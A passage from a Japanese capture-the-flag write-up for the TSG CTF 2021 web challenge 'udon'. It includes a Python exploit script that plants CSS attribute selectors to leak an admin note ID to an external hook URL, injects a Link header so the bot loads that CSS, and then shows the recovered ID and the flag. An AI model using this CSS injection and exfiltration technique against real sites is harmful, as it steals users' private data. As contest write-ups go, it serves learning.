 ```python
    for c in rec(0, ""):
        note_description += "li a[href$={{value}}] { background: url({{hook_url}}/{{value}}) }\n".replace("{{value}}", c + suffix).replace("{{hook_url}}", hook_url)

    res = httpx.post(
        base_url + "/notes",
        data={
            "title": "xxx",
            "description": note_description,
        },
        allow_redirects=False,
    )
    assert res.status_code == 302

    note_url = base_ssrf_url + res.headers["Location"]
    print(note_url)
    exploit_path = "/?k=Link&v=" + quote("<" + note_url + "?k=Content-Type&v=" + quote("text/css; charset=utf-8") + ">; rel=\"stylesheet\"")

    res = httpx.post(
        base_url + "/tell",
        data={
            "path": exploit_path,
        },
        allow_redirects=False,
    )
    assert res.status_code == 302


f(n)
```

何度かスクリプトを回すことでadminノートのIDを後方から確定していきます。
本当は `hook_url` でホストして自動化したほうがかっこいいのですが、今回はIDが10文字で短いことがわかっていたので手動で確定させました。

また、`a[href $= 1abc]`のように数字から始まるとCSSセレクタとしてvalidではないため、1文字ずつではなく`n`文字ずつ確定できるようになっています。最後（先頭の文字）は数字のようだったので0から9までbrute forceしました。[作問者writeup](https://diary.shift-js.info/tsgctf-2021-udon/)によれば`a[href $= \31\61\62\63]`でエスケープできたんですね。知らなかった。

最終的にIDは`4R1cmOAtdG`でした。該当ノートのページにアクセスするとフラグゲットです。

## フラグ

```
TSGCTF{uo_uo_uo_uo_uoooooooo_uo_no_gawa_love}
```

## 感想

TSG CTFらしく、「有り余るCS力と作問センスでぶん殴ったらできました」的な印象を受けた問題たちでした。
色々な問題に取り組みたいけど24hでは短い、かと言って48hになると疲れてしまうので自分が強くなるしかないですね。精進します。

運営・作問の方々たのしいCTFをありがとうございました。来年のTSG CTFにも参加したいです。


[^1]: web問でのbotは大抵chromeが使われるので、firefoxの場合には「そこが攻撃ポイントになることが多い」というメタ読みができます。